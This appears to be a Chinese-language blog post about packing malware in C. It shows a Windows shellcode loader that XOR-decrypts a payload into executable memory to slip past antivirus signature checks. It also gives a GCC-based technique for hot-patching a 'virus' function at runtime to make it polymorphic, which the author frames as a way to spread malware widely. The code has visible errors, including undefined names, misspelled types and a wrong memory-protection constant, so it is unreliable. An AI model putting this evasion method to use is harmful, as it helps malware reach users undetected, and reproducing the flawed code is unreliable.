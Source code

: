 ```yaml
---
title: C 语言的热插拔
date: 2016-03-02
---
```


如今，电脑病毒这个词语已经没有当年那样的火热流行了。之前的 XGhost 事件，还有诸如 Veil Framework, Shellter 这样的框架的冒出。
其实不然，相对的是人们已经不是像以前的人们为了证明自己的能力而开发电脑病毒，反而趋向成熟发展成了各种木马，还有广告程序 (Javascript, Nodejs 端的花样也很多呢)。变成研究电脑病毒变成了一个浪漫的项目呢…

<!-- more -->

## 加密

我们来简单的加密我们的 shellcode, （啥？你不懂 shellcode ?）
这样至少我们能成功逃避我们防毒软件的特征码检测。

```cpp
#include <windows.h>
#include <iostream>

int main(int argc, char **argv) {
    char shellcode[] = { };
    char magic[sizeof b];
    for (int i = 0; i < sizeof b; i++)
        magic[i] = shellcode[i] ^ "secret_key";
    void *exec = VirtualAlloc(0, sizeof magic, MEM_COMMIT, PAGE_EXECUTION_READWRITE);
    memcpy(exec, magic, sizeof magic);
    ((void (*)()) exec)();
}
```

无法置信地短的代码，但是无疑地防毒软件的特征码检测对这个没办法。因为我们几乎是加密了一番。

但是如果我们要大量传播的话，只要收集够量的样本我们的加密就没有它的效用了…，所以我们引用的是很久以前黑客的那一套，"Polymorhic"

## Polymorhic 技巧

目前为止大部分的文章只有在内容 shellcode 上做 Polymorhic 混淆。但是如果牵涉到 stager 级别的话就很难做到了。这个要很熟悉编译器的 linking 技巧。

那么假设用上面的做例子做了一点修改

```cpp
void virus() {
    char shellcode[] = { };
    char magic[sizeof b];
    for (int i = 0; i < sizeof b; i++)
        magic[i] = shellcode[i] ^ "secret_key";
    void *exec = VirtualAlloc(0, sizeof magic, MEM_COMMIT, PAGE_EXECUTION_READWRITE);
    memcpy(exec, magic, sizeof magic);
    ((void (*)()) exec)();
}

int main() {
    virus();
}
```

我们现在要做的是类似热补丁的效果，在病毒运行期间改变其函数特征。
我先说说原理吧：
首先我们在函数的头部改写成无条件跳转到新的函数。这样我们最小的颗粒度会是函数 :) 在这之前我们要了解的是线程之间没有任何同步的关系。

我们在这里用的是 GCC 的技巧。 *ms_hook_prologue* 的属性，这会在函数的头部放一段 8 bytes 的 NOP 段。

<div class="tip">
  NOP 需要对齐哦，因为我们是直接写入的。不然会发生些奇怪的事 (当然是不好的事了)
</div>

所以我们需要 *aligned* 属性来确保对齐啊

* 我们需要确保的是我们的函数之间会是 PIC (Position Independent Code) 即不是 inline 也不是 cloned 的。

所以我们需要 *noclone* 属性来确保编译器不会优化我们的函数成 inline function。

* GCC 会默认地存储我们的函数 return address 在头部，所以如果我们要热插拔的功能的话我们要做点手脚，在这里我们用了 *__asm("")* 这个关键字

所以我们的代码会是：

```
__attribute__ ((ms_hook_prologue))
__attribute__ ((aligned(8))
__attribute__ ((noinline))
__attribute__ ((noclone))

void virus() {
    char shellcode[] = { };
    char magic[sizeof b];
    for (int i = 0; i < sizeof b; i++)
        magic[i] = shellcode[i] ^ "secret_key";
    void *exec = VirtualAlloc(0, sizeof magic, MEM_COMMIT, PAGE_EXECUTION_READWRITE);
    memcpy(exec, magic, sizeof magic);
    ((void (*)()) exec)();
}

int main() {
    virus();
}
```

看看汇编看起来会怎样

```
$ objdump -Mintel -d main
0000000000400448 <main>:
  400448:       48 8d a4 24 00 00 00     lea    rsp,[rsp+0x0]
  40044f:       00
  400450:       bf d4 09 40 00           mov    edi,0x401894
```

很好！我们有了对齐的 8 bytes 头 NOP 了

## 热插拔函数

简单地将取代函数地址，8 bytes 对齐了之后
```
void worker(void *target, void *replacement) {
    assert(((unintptr_t) target & 0x07) == 0);
    void *page = (void *)((unintptr_t) target & ~0xfff);
    mprotect(page, 4096, PROT_WRITE | PROT_EXEC);
    uint32_t rel = (char *)replacement - (char *) target -5;
    union {
        unit8_t bytes[8];
        unit64_t value;
    } instruction = { {0xe9, rel >> 0, rel >> 8, rel >> 16, rel >> 24 } };
    *(uint64_t *)target = instruction.value;
    mprotect(page, 4096, PROT_EXEC);
}
```
